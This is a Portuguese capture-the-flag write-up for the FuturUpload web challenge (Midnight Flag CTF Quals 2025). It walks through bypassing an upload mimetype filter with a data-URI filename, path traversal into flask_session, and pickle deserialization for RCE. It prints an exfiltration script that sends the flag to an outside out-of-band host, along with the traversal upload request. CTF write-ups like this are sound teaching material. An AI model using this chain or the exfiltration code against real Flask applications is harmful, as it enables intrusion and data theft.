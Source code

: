 ```yaml
---
layout: post
title: "FuturUpload - Midnight Flag CTF Quals 2025"
authors:
  - name: apolo2
    social: https://apolo2.xyz
date: 2025-04-16
excerpt: "Solução do desafio FuturUpload do Midnight Flag CTF Quals 2025"
---
```


## Introdução
Midnight Flag CTF é um CTF organizado pela _ESNA de Bretagne_. A qualificatória da edição de 2025 teve 364 times participantes com ao menos 1 flag; 260 com ao menos 2 flags. [The Flat Network Society](https://ctftime.org/team/87434/) terminou na primeira colocação. [FuturUpload](https://github.com/MidnightFlag/qualifiers-challenges-2025/tree/master/Web/FuturUpload) era o último desafio da categoria web, com a tag `Hard`, sem hints, 497 pontos e 7 solves ao final do evento.

## Challenge
O desafio consiste em um servidor de cloud storage, onde é possível fazer upload de arquivos e criação de pastas. Também há login/registro de usuários, com sessões utilizando o `flask_session`. A flag está em `/flag.txt`.

No `Dockerfile` há:
```
COPY ./flag.txt /root/
COPY ./getflag.c /
RUN gcc /getflag.c -o /getflag && \
chmod u+s /getflag && \
rm /getflag.c
  
WORKDIR /app
COPY ./src/ .
RUN useradd ctf && \
chown -R ctf:ctf /app/flask_session/ && \
chown -R ctf:ctf /app/user_files/

USER ctf
EXPOSE 800
ENTRYPOINT ["python3","app.py"]
```

Daí já surgem alguns pontos importantes:
- conseguir file read não é suficiente: é necessário executar `/getflag` para conseguir a flag; precisa-se de RCE;
- escrita/leitura relevante está restrita a `/app/flask_session/` e `/app/user_files/`.

O compose também é simples: `ports: "8000:8000"` e `restart: unless-stopped`. O servidor, todavia, passava por um reverse proxy.

No entrypoint (`app.py`) há:
```
from flask import Flask
from config import Config
from models import init_db
from flask_session import Session
from routes.views import views_blueprint
from routes.api import auth_api, files_api, folders_api

app = Flask(__name__)
app.config.from_object(Config)
Session(app)
init_db()
  
app.register_blueprint(views_blueprint)
app.register_blueprint(auth_api)
app.register_blueprint(files_api)
app.register_blueprint(folders_api)

app.run(host='0.0.0.0', port=8000, threaded=True)
```

Uma ideia de RCE já surge daí: com a escrita em `flask_session`, pode-se escrever `__init__.py` lá e conseguir a execução por dependency confusion.

**Problema:** `Flask` está sem debug mode e não há WSGI. Como o import acontece no entrypoint do container, é necessário forçar um restart.

`config.py` mostra `DATABASE = ":memory:"` e `models.py` mostra `sqlite3` com queries para registro de usuários com colunas do tipo `TEXT`. Uma ideia é forçar DoS e abusar do `restart: unless-stopped`. Não foi possível.

Outra ideia de RCE: `flask_session` chama `picke.load` em cima das sessões armazenadas (code review). `pickle` é [conhecidamente inseguro](https://docs.python.org/3/library/pickle.html). No arquivo de configuração há `SESSION_TYPE = "filesystem"`: as sessões serão armazenadas em `flask_session`. O servidor tem permissão de escrita em `flask_session`.

**Problema:** um arquivo de sessão tem o formato `md5(SESSION_KEY_PREFIX="session:"+SESSION_ID)`. Embora um usuário saiba seu ID de sessão, o arquivo de configuração define `SESSION_KEY_PREFIX = os.urandom(32).hex()`, inviabilizando sobrescrever seu arquivo de sessão criado pelo `flask_session`.

Mais code review. `Flask` usa um módulo chamado `cachelib`, que usa um arquivo contendo o número de sessões armazenadas: [`__wz_cache_count`](https://github.com/pallets-eco/cachelib/blob/9a4de4df1bce035d27c93a34608a8af4413d5b59/src/cachelib/file.py#L50). Os arquivos de `cachelib` também usam MD5, mas não usam o `SESSION_KEY_PREFIX`: isso é do `flask_session`!  Basta escrever um payload para passar pelo `pickle.load` do `flask_session` em `flask_session/md5("__wz_cache_count")="2029240f6d1128be89ddc32729463129"`.

Construir o arquivo é simples e [já conhecido](https://ctftime.org/writeup/40063); basta usar `__reduce__` e colocar um padding de 4 bytes, usados como timestamp. Foi usado exfil OOB da flag com o seguinte script:
```
import subprocess
import urllib.request
import urllib.parse

output = subprocess.check_output(['/getflag'], stderr=subprocess.STDOUT)
flag = output.decode().strip()
encoded_flag = urllib.parse.quote(flag)

url = f"http://ovrdwkexzqwddnkyjctj3v76n1mfyqawm.i.apolo2.xyz/?exfil={encoded_flag}"
req = urllib.request.Request(url, method="POST")
urllib.request.urlopen(req)
```

**Problema**: o RCE ficou trivial, se for possível escrever em `flask_session`. O writeup começou do RCE, mas a escrita ocorre em `user_files` (em config: `UPLOAD_FOLDER = os.path.abspath("user_files")`). Precisa-se de um path traversal.

Code review no fluxo de upload...

**Problema:** só é possível fazer upload de imagens.
```
mimetype, _ = mimetypes.guess_type(filename)
if mimetype not in ['image/png', 'image/jpeg']:
	return jsonify({'status': 'error', 'message': 'Invalid file type'})
```

Esse filtro é bem fraco. O `guess_type` se baseia apenas no `filename`, usar [data URI](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data) é um bypass trivial, mas as pastas precisam existir! A solução é simples: bastar criar as pastas `data:image` e `png,`. A aplicação permite isso.

**Problema:** o path traversal não parece possível.
```
base_path = os.path.join(Config.UPLOAD_FOLDER, user[3])
full_folder = os.path.normpath(os.path.join(base_path, folder))
if not full_folder.startswith(base_path):
	return jsonify({'status': 'error', 'message': 'Invalid folder'})
```

Novamente, outro filtro fraco. Basta migrar o path traversal para o parâmetro `filename`, e deixar `folder=`.

A partir daqui, é só montar o RCE:
- criar 2 pastas aninhadas: `data:image` e `png,`;
- montar um arquivo malicioso para passar pelo `pickle`;
- fazer upload com `folder=&filename=data:image/png,/../../../../flask_session/2029240f6d1128be89ddc32729463129&content=BASE64_PICKE_EXPLOIT`.
